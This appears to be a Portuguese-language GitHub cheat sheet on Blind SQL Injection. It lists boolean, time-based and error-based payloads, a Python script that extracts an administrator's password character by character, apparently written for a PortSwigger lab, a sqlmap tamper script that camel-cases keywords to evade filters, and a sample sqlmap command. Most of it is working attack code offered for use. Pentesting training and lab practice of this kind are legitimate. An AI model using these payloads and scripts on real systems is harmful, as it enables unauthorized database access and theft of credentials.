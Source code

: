 Basicamente uma aplicação é vulnerável a Blind SQL Injection quando não retorna nenhum resultado como resposta aos códigos SQL injetados. Neste cenário, códigos contendo UNION não são efetivos, e é necessário usar códigos condicionais para extrair informações da base de dados. 

:fries:Checklist

- Boolean-based Blind SQLi
<p>Se a aplicação mudar a resposta ao enviar uma sentença falsa, isso é um indício de que a aplicação está vulnerável.</p>

```
' AND 1=1 -- - (true)
' AND 1=2 -- - (false)
```
- Time-based Blind SQLi
<p>Códigos com 'SLEEP' ou 'BENCHMARCK' forçam a base de dados a esperar 10 segundos quando a condição é verdadeira. Se a resposta tiver um delay de 10 segundos (ou outro valor adicionado ao comando), isso indica que o payload funcionou, e a aplicação está vulnerável. </p>

```
/* Multicontext */
SLEEP(10)
SLEEP(10) /*' or SLEEP(10) or '" or SLEEP(10) or "*/

/* MySQL only */
IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1))/*'XOR(IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1)))OR'|"XOR(IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1)))OR"*/
```
- Error-based Blind SQLi
<p>Apesar do Blind SQL Injection não retornar uma mensagem de erro convencional, quando usamos CASE para testar uma condição, podemos obter o retorno de "strings", e fazer o mapeamento de informações a partir dessa resposta. </p>

```
 ' OR (SELECT CASE WHEN (ASCII(SUBSTRING((SELECT database()),1,1)) = 'a') THEN CAST('' AS INT) ELSE 'a' END) -- ';
 
 select substring(database(),1,1)
 
 ' and substring(@@version,1,1)='[valor-para-testar]
```
### Burp Suite to exploit Blind SQLi
<p>Instale a extensão "Copy as Python-Requests" do Burp Suite e use a requisição para realizar a exploração do Blind SQL Injection. 
Script de exemplo para exploração do Blind SQLi com respostas condicionais.</p>
Burp Lab: https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses
<br></br>

```
import requests
import string

burp0_url = "https://[host]"
burp0_cookies = {"TrackingId": "2OhtAv5umLt0e9Yg", "session": "2yNubi9Et3RQFcH4WCBFiX3LO8RurQ21"}
burp0_headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate, br", "Referer": "https://0ae100df03b5e2d68630f39d00cd0013.web-security-academy.net/filter?category=Gifts", "Dnt": "1", "Upgrade-Insecure-Requests": "1", "Sec-Fetch-Dest": "document", "Sec-Fetch-Mode": "navigate", "Sec-Fetch-Site": "same-origin", "Sec-Fetch-User": "?1", "Te": "trailers"}

char_set = string.ascii_lowercase + string.digits
password = ''

for position in range(1,21):
    for char in char_set:
        burp0_cookies["TrackingId"] = f"2OhtAv5umLt0e9Yg' AND (SELECT SUBSTRING(password,{position},1) FROM users WHERE username = 'administrator')='{char}"
        print(f"Testando: {position}:{char}")
        response = requests.get(burp0_url, headers=burp0_headers, cookies=burp0_cookies)

        if "Welcome" in response.text:
            print(f"Found {position}:{char}")
            password += char
            break
print(f"Pass: {password}")
```
### Script para bypass de filtro de palavras 
<p>Use o script abaixo com a opção Tamper do SQLMap</p>

```
#!/usr/bin/env python
from lib.core.enums import PRIORITY

__priority__ = PRIORITY.NORMAL

def dependencies():
    pass

def tamper(payload, **kwargs):
    """
    Replaces each keyword a CaMeLcAsE VeRsIoN of it.

    >>> tamper('INSERT')
    'InSeRt'
    """

    retVal = str()

    if payload:
        for i in xrange(len(payload)):
            if (i % 2 == 0):
                # We cannot break 0x12345
                if not ((payload[i] == 'x') and (payload[i-1] == '0')):
                    retVal += payload[i].upper()
                else:
                    retVal += payload[i]
            else:
                retVal += payload[i].lower()
    return retVal
```
#### Execução do script 
```
sqlmap -u 'http://[URL]/' -p user-agent --technique=U --tamper=/path/to/your/tampering/scripts/camelcase.py --prefix="nonexistent'" --suffix=';#' --union-char=els --banner
```


